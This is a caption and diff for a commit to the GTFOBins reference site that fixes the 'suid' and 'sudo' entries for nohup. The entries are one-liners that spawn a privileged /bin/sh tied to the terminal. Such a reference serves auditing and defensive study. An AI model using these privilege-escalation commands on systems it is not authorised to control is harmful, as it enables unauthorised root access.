

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nohup.md, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_gtfobins/nohup.md
+++ b/_gtfobins/nohup.md
@@ -7,8 +7,8 @@ functions:
         COMMAND='/usr/bin/id'
         nohup "$COMMAND"
         cat nohup.out
+  suid:
+    - code: nohup /bin/sh -p -c "sh -p <$(tty) >$(tty) 2>$(tty)"
   sudo:
-    - code: nohup /bin/sh -c "sh <$(tty) >$(tty) 2>$(tty)"
-  suid:
-    - code: sudo nohup /bin/sh -p -c "sh -p <$(tty) >$(tty) 2>$(tty)"
+    - code: sudo nohup /bin/sh -c "sh <$(tty) >$(tty) 2>$(tty)"
 ---
```
